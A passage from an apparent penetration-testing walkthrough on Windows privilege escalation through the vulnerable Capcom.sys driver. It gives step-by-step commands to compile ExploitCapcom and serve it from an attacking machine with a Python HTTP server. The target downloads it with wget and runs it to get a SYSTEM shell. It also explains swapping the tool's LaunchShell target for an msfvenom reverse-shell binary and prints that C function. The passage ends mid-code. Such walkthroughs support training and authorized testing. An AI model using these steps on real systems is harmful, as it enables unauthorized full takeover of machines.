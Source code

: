 
### Step 3. Use ExploitCapcom Tool to Escalate Privileges

**1.** Next, verify that the Capcom driver is now listed.

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

The output should be something like this:

```
Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

**2.** Now we will use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool for escalating privileges. I've cloned it into a windows virtual machine with Visual Studio 2022 installed (in my kali machine)

- Open Visual Studio 2022. Clone the project. Once cloned, right click and select "Compile". It's important to change the architecture to x64 in order to compile.
- Executable generated under "C:\Users\vboxuser\source\repos\ExploitCapcom\ExploitCapcom\x64\Release"

**3.** Upload the `ExploitCapcom.exe` file to the target machine:

```
# from the attacking machine
python3 -m http.server 80

# from the target host
wget http://$attackingIP/ExploitCapcom.exe -outfile ExploitCapcom.exe
```

**4.** Run the binary:

```powershell
.\ExploitCapcom.exe
```

This launches a shell with SYSTEM privileges.


## Alternative #2  With no access to GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

**1.** In our attacking machine, open the Visual Studio from the windows virtualbox machine and modify these lines:

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
```